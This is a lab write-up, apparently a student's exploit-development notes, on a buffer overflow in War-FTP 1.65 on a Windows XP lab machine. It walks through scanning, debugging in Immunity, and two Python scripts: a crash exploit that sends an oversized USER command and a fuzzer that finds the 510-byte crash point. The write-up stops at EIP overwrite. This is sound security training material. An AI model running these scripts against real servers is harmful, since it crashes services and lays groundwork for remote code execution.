 # Lab Machine Write up and Notes 

## Resources: 

Original Exploit: https://www.exploit-db.com/exploits/3570


### Nmap of the XP Machine

<img src="/images/nmap-xp-machine-tcp.png" >

A quick Nmap scan of the target machines reveals TCP port 21 open. I also outputted to all formats 
so I can import it into searchsploit to see if it catches some stuff. 

###  SearchSploit Results

I imported the Nmap scan like so: 

``
searchsploit --nmap xp-machine-tcp.xml 
``

But output was too verbose so I did not put it here and instead re-ran the command manually 

<img src="/images/searchsploit-1.png" >


###  Metasploit Console Exploit

<img src="/images/msfconsole.png" >

As you can see, the exploit did not work ( This is because it just crashed the application so, we are going to remake this manually )


### I Attached The Program to Immunity Debugger 

<img src="/images/immunity-ftp.png" width=812px height=474px>


### Vulnerability Discovery Inside The Application 

## Manual 

#### Python One Liner To Find Crashing Point Manually

This prints 1,000 As for ease of access 

<img src="/images/python-oneliner.png">

#### In the case of trying this directly through a FTP Client on a modern Distrobution the Client will stop you from sending the max buffer 

<img src="/images/failed-exploit.png">

#### So we are going to try with NetCat and See if that works better 

<img src="/images/crash-succeeded.png">

#### As you can see we crashed the program ( I did have to enter a pass before it crashed ) and to confirm the crash opened our debugger 

<img src="/images/immunity-crash.png" width=812px height=474px>

#### YAAAY we have control over the EIP and have written over it with our A's 

<img src="/images/immunity-EIP.png">

#### I have created an Exploit that will crash the server! 

This is a skeleton exploit we will add on more stuff as we find it

```python3
#!/usr/bin/python3

## War-FTP 1.65 Exploit

import socket
from urllib import response 

# define the variables to be sent to the server
ip = '192.168.164.170'
port = 21
buffer = b"A" * 510
payload = ""

# create the socket to connect to the server
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = s.connect((ip, port))
# because there is a banner we wanna print it out 
response = s.recv(1024)
print(response)

# sending the exploit 
s.send(b"USER " + buffer + b"\r\n")
response = s.recv(1024)
print(response)

# because you have to enter the pass as well 
s.send(b"PASS PARROTASSASSIN15\r\n")
s.close()

```

## Automation 

#### We need to find the exact crash point so we make a fuzzing script to narrow it down after manual or automate it from the begining 


```python3
#!/usr/bin/python3

import socket
from time import sleep
from urllib import response 

buffer = b"B" * 10
x = 0

while True: 
    buff = (b"A" * x ) + buffer
    print("Fuzzing " + str(len(buff)))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    connect = s.connect(('192.168.164.170', 21))
    response = s.recv(1024)
    print(response)
    s.send(b"USER " + buff + b"\r\n")
    response = s.recv(1024)
    s.send(b"PASS PARROTASSASSIN15\r\n")
    s.close
    x = x + 100
    sleep(2)
```

#### We find that it crashes at 510 as the server no longer responds after 

<img src="/images/python3-crash.png" width=500px height=300px>
